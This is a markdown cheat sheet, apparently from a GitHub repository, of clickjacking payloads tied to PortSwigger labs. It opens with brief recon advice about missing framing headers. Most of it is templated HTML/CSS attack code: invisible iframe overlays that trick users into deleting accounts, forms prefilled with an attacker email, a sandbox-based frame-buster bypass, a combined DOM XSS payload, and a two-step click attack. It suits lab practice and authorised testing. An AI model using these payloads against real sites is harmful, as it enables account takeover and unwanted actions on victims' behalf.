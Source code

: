 # Clickjacking

## Summary
* [Recon for Clickjacking](#recon)
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Recon

* Identify if the application’s requests contain the X-Frame-Options / Content-Security-Policy (frame-ancestors) in the immediate response.

* If the responses do not contain these headers, then the application is most likely vulnerable to clickjacking.

---
---

## Cheat Sheet

### Basic Clickjacking:

* Use a basic clickjacking payload, that loads the vulnerable application’s page in an \<iframe\>, which contains a button to delete the user’s account.  We can use this method to trick a user into clicking on the “Delete account” button on the targeted application.  (Example: height: 700px , opacity: 0.1)

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="$url"></iframe>
```

### Prepopulate For - Clickjacking

* Use a clickjacking payload, which will prepopulate a \<form\> parameter’s value, using it as a query parameter in a GET request.  Include this targeted web page in an \<iframe\>.  Since the form will be prepopulated, we only need to induce the user into clicking on the region that will submit the POST request.

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="$url?email=hacker@attacker-website.com"></iframe>
```

### Prepopulate Form + Frame Buster Script Bypass

* Use a clickjacking payload, which will prepopulate a \<form\> parameter’s value, using a query parameter in a GET request.  Include this targeted web page in an \<iframe\> with the attribute ‘sandbox=“allow-forms”’, this will neutralize the frame buster script .  Since the form will be prepopulated, we only need to induce the user into clicking on the region that will submit the POST request.

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="$url?email=hacker@attacker-website.com"></iframe>
```

### Prepopulate Form + DOM XSS Exploit

* Use a clickjacking payload, which will prepopulate a <form> parameter’s value, using a query parameter in a GET request. One of these parameters will include a XSS payload, as a client-side script on the application is using the parameter’s value in a dangerous Sink.  Combining both clickjacking and XSS leads to a higher impact.  Without the clickjacking vulnerability, the XSS would be more difficult to pull off
    * Include this targeted web page in an \<iframe\>.  Since the form will be prepopulated, we only need to induce the user into clicking on the region that will submit the POST request.

```html
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe
src="$url?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

### 2-Step Clickjacking Attack

* Use a basic clickjacking payload, that loads the vulnerable application’s page in an \<iframe\>, which contains a button to delete the user’s account.  We can use this method to trick a user into clicking on the “Delete account” button, then confirm the action by clicking on another button on the targeted application.

```html
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:$top_value1;
		left:$side_value1;
		z-index: 1;
	}
   .secondClick {
		top:$top_value2;
		left:$side_value2;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="$url"></iframe>
```